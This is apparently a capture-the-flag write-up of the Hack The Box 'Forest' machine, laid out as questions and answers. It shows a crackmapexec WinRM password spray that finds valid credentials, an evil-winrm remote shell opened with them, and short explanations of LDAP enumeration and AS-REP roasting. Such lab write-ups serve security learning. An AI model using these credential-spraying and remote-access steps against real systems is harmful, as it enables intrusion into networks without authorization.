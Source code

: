 ```
```

Cracmapexec winrm:

```
└──╼ [★]$ crackmapexec winrm 10.129.95.210  -u users.txt -p passwords.txt   --continue-on-success
WINRM       10.129.95.210   5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.129.95.210   5985   FOREST           [-] htb.local\Administrator:s3rvice
WINRM       10.129.95.210   5985   FOREST           [-] htb.local\sebastien:s3rvice
WINRM       10.129.95.210   5985   FOREST           [-] htb.local\lucinda:s3rvice
WINRM       10.129.95.210   5985   FOREST           [-] htb.local\andy:s3rvice
WINRM       10.129.95.210   5985   FOREST           [-] htb.local\mark:s3rvice
WINRM       10.129.95.210   5985   FOREST           [-] htb.local\santi:s3rvice
WINRM       10.129.95.210   5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Question 2:
Which of the following services allows for anonymous authentication and can provide us with valuable information about the machine? FTP, LDAP, SMB, WinRM
Answer:
LDAP
LDAP  - Lightweight Directory Access Protocol is a method for obtaining distributed directory information from a service. For Windows Active Directory environments this is a useful method of enumerating users, computers, misconfigurations. 

By using evil-winrm command:
```
─╼ [★]$ evil-winrm -i 10.129.95.210 -u svc-alfresco -p s3rvice
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```
Evil-winrm tool purpose is to pentest Microsoft Windows environment. Evil-winrm works with Powershell remoting protocol. Usually, system and network administrators use Windows Remote Management protocol that works with HTTP transport port 5985. 

Question 3:
Which user has Kerberos Pre-Authentication disabled?
Answer: 
svc-alfresco

AS-REP Roasting is a technique that enables attackers to steal the password hashes of user accounts that have Kerberos preauthentication disabled.  

